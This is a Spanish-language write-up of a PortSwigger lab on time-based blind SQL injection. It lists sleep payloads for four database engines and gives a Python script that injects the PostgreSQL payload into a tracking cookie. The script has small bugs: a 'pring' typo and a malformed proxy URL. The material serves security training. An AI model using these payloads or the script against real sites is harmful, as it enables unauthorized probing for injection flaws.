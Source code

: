 ```yaml
---
title: "13 Blind SQL injection with time delays"
collection: publications
category: portswigger
permalink: /publications/SQLi/13_Blind SQL injection with time delays
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL basada en el tiempo para provocar un retraso de 10 segundos.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with time delays'
---
```


![logo]({{site.url}}/images/SQLi/sqli-13/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-13/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, explota la vulnerabilidad de inyección SQL para provocar un retraso de 10 segundos.

## Analisis del campo vulnerable

En esta ocación vamos a probar el `TrackingId` si es vulnerable a Blind SQLi basado en tiempo. Necesitamos averiguar que Motor de BD es. Y vemos que es un `PostgreSQL`

![Cheat]({{site.url}}/images/SQLi/sqli-13/cheat.png)

```sql
' || (SELECT pg_sleep(10))--                                -> Payload para BD PostgreSQL   ✅
' || (SELECT sleep(10))--                                   -> Payload para BD MySQL   ❌
' || (SELECT dbms_pipe.receive_message(('a'), 10))--        -> Payload para BD Oracle   ❌
' || WAITFOR DELAY '0:0:10'--                               -> Payload para BD SQL Server   ❌
```

![Tiempo]({{site.url}}/images/SQLi/sqli-13/tiempo.png)

## Aprobado

![Aprobado]({{site.url}}/images/SQLi/sqli-13/aprobado.png)

# Codigo Python

```python

import sys
import requests
import urllib3
import urllib

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http:127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def blind_sqli_check(url):
    sqli_payload = "' || (SELECT pg_sleep(10))--"
    sqli_payload_encoded = urllib.parse.quote(sqli_payload)
    cookies = {'TrackingId': 'fY3mWGvtddfW37rS' + sqli_payload_encoded, 'session': '3tjAqEsmAUv1oSufDDKMp8Dpr9LKqwcd'}
    r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
    if int(r.elapsed.total_seconds()) > 10:
        print("(+) Vulnerable to blind-based SQL injection")
    else:
        print("(-) Not vulnerable to blind based SQL injection")


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        pring("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Checking if tracking cookie is vulnerable to time-based blind SQLi....")
    blind_sqli_check(url)

if __name__ == "__main__":
    main()

```